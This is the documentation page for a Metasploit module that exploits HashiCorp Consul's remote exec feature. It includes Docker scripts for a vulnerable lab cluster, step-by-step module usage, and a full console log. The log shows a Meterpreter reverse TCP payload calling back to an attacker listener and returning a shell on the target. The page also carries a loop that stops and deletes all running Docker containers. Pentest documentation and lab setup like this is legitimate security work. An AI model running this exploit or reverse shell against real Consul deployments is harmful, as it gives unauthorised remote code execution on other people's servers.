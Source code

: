 ## Vulnerable Application

### Description

This module exploits a feature of Hashicorp Consul named rexec.

The exec command provides a mechanism for remote execution. For example, this can be used to run the uptime command across all machines providing the web service.

The exposure of rexec service depends on the `disable_remote_exec` option. This option was set to true starting from Consul 0.8, to make remote exec opt-in instead of opt-out.


#### References

* Consul Exec - https://www.consul.io/docs/commands/exec.html
* Consule _disable_remote_exec_ option - https://www.consul.io/docs/agent/options.html#disable_remote_exec

### Test setup

The following bash script can be used to setup a testing environment with Docker:

```
#!/bin/sh

echo "[+] Launching consul instances..."
docker run -d --name=consul_bootstrap_server consul agent -server -client=172.17.0.1 -bootstrap -data-dir /tmp/consul
sleep 2

docker run -d --name=consul_server_1 consul agent -server -client=172.17.0.2 -data-dir /tmp/consul
sleep 2
docker exec -t consul_bootstrap_server consul join -http-addr="172.17.0.1:8500" 172.17.0.2

docker run -d --name=consul_server_2 consul agent -server -client=172.17.0.3 -data-dir /tmp/consul
sleep 2
docker exec -t consul_bootstrap_server consul join -http-addr="172.17.0.1:8500" 172.17.0.3

docker run -d -e 'CONSUL_LOCAL_CONFIG={"leave_on_terminate": true, "disable_remote_exec":false}' consul agent -ui -client=172.17.0.4 -retry-join=172.17.0.1

sleep 4
echo "[+] Checking members..."
docker exec -t consul_bootstrap_server consul members -http-addr="172.17.0.1:8500"
```

You should observe something similar to the excerpt below when running the script:

```
sudo ./launch.sh
[+] Launching consul instances...
23e8aa4687846382e601ec3c5a66d6db9448518647996f8fd8fdbcdde7f612cf
b28c7929c2a2141c162a35d635af48fdafd70f6c03bee61445e7e78f4e76af84
Successfully joined cluster by contacting 1 nodes.
7c53a6f486426ad6ab4886f3f7b85481932333850d0046280ca082ff1bb79358
Successfully joined cluster by contacting 1 nodes.
a58ec109f45029352a94721ee2e7c9c80a9c94178af8efd15279951da8ed0cab
[+] Checking members...
Node          Address          Status  Type    Build  Protocol  DC   Segment
23e8aa468784  172.17.0.1:8301  alive   server  1.0.6  2         dc1  <all>
7c53a6f48642  172.17.0.3:8301  alive   server  1.0.6  2         dc1  <all>
b28c7929c2a2  172.17.0.2:8301  alive   server  1.0.6  2         dc1  <all>
a58ec109f450  172.17.0.4:8301  alive   client  1.0.6  2         dc1  <default>
```

The following bash script can be used to stop and destroy **all your running docker containers** (so be careful if you use docker containers for other things at the same time):

```
#!/bin/sh
for h in `sudo docker ps | grep -v CONTAINER | cut -d' ' -f1`; do sudo docker stop $h && sudo docker rm $h; done
```

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Launch a Consul cluster with the provided bash script
  2. Start msfconsole
  3. Do: `use exploit/multi/misc/consul_rexec_exec`
  4. Do: `set RHOST 172.17.0.4`
  5. Do: `set RPORT 8500`
  6. Do: `check`. The target should appear vulnerable.
  7. Do: `set payload` with the payload of your choosing.
  8. Do: `set LHOST 172.17.42.1` (docker0 gateway IP)
  9. Do: `run`
  10. You should get a shell.

## Scenarios

### Reverse shell on Linux host

Exploit running against a Docker [consul](https://hub.docker.com/_/consul/) container target:

```
msf5 > use exploit/multi/misc/consul_rexec_exec
msf5 exploit(multi/misc/consul_rexec_exec) > set RHOSTS 172.17.0.4
RHOSTS => 172.17.0.4
msf5 exploit(multi/misc/consul_rexec_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/misc/consul_rexec_exec) > set LHOST 172.17.42.1
LHOST => 172.17.42.1
msf5 exploit(multi/misc/consul_rexec_exec) > check
[+] 172.17.0.4:8500 The target is vulnerable.
msf5 exploit(multi/misc/consul_rexec_exec) > run

[*] Started reverse TCP handler on 172.17.42.1:4444
[*] Creating session.
[*] Got rexec session ID b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Setting command for rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Triggering execution on rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Sending stage (861480 bytes) to 172.17.0.4
[*] Cleaning up rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Command Stager progress - 115.73% done (883/763 bytes)

meterpreter > sysinfo
Computer     : 172.17.0.4
OS           :  (Linux 4.4.0-38-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.17.0.4 - Meterpreter session 1 closed.  Reason: User exit
```
